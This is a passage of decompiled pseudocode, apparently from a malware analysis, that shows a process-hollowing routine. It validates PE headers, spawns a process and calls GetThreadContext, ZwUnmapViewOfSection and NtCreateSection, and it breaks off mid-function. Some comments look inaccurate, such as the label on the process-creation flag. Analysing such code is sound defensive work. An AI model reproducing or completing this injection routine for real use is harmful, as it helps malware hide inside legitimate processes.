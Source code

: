 ```php
  _DWORD *targetAddr2; // [esp-2Ch] [ebp-30h]
  int v22; // [esp-28h] [ebp-2Ch] BYREF
  int v23; // [esp-24h] [ebp-28h] BYREF
  int hThread; // [esp-20h] [ebp-24h]
  int v25; // [esp-1Ch] [ebp-20h]
  int v26; // [esp-14h] [ebp-18h] BYREF
  int v27; // [esp-10h] [ebp-14h] BYREF
  int v28; // [esp-Ch] [ebp-10h] BYREF
  int sizeOfImage_1; // [esp-8h] [ebp-Ch]
  int sectionment; // [esp-4h] [ebp-8h]

  if ( *(_WORD *)DOS_HEADER != 0x5A4D )         // MZ
    return 0;
  NT_HEADER = DOS_HEADER + *(_DWORD *)(DOS_HEADER + 0x3C);
  if ( *(_DWORD *)NT_HEADER != 0x4550 )         // PE
    return 0;
  sectionment = *(unsigned __int16 *)(NT_HEADER + 0x14) + NT_HEADER + 0x18;
  memsetFunc(v17, 0, 68);
  memsetFunc(&v23, 0, 16);
  memsetFunc(&cmdLine, 0, 520);
  v7 = (char *)(*(int (**)(void))(a2 + 0xA8))();// GetCommandLineW
  if ( !v7 )
    return 0;
  strcpyFUnc((char *)&cmdLine, v7);
  if ( !(*(int (__stdcall **)(_DWORD, int *, _DWORD, _DWORD, _DWORD, int, _DWORD, _DWORD, _BYTE *, int *))(a2 + 0x50))(// CreateProcessW
          0,
          &cmdLine,
          0,
          0,
          0,
          4,                                    // CREATE_SEPARATE_WOW_VDM
          0,
          0,
          v17,
          &v23) )
    return 0;
  targetAddr = (_DWORD *)(*(int (__stdcall **)(_DWORD, int, int, int, int, int, int, _DWORD *))(a2
                                                                                              + 0x80))(// VirtualAlloc
                           0,
                           4096,
                           12288,
                           4,
                           a3,
                           a1,
                           cmdLine,
                           targetAddr1);
  targetAddr1 = targetAddr;
  *targetAddr = 0x10007;
  targetAddr2 = targetAddr;
  if ( !(*(int (__cdecl **)(int, _DWORD *))(a2 + 0x54))(hThread, targetAddr1) )// GetThreadContext
    goto LABEL_13;
  ImageBaseAddress = GetImageBaseAddressFunc();
  ImageBase = ImageBaseAddress;
  if ( ImageBaseAddress == *(_DWORD *)(NT_HEADER + 0x34) )
    (*(void (__stdcall **)(int, int))(a2 + 0x5C))(v23, ImageBaseAddress);// ZwUnmapViewOfSection
  sizeOfImage = *(_DWORD *)(NT_HEADER + 0x50);
  v26 = 0;
  if ( !j_NtCreateSectionFunc(a2, (int)&v26, sizeOfImage) )// 创建Section NtCreateSection
    goto LABEL_13;
  sizeOfImage_1 = *(_DWORD *)(NT_HEADER + 0x50);
  v28 = 0;
```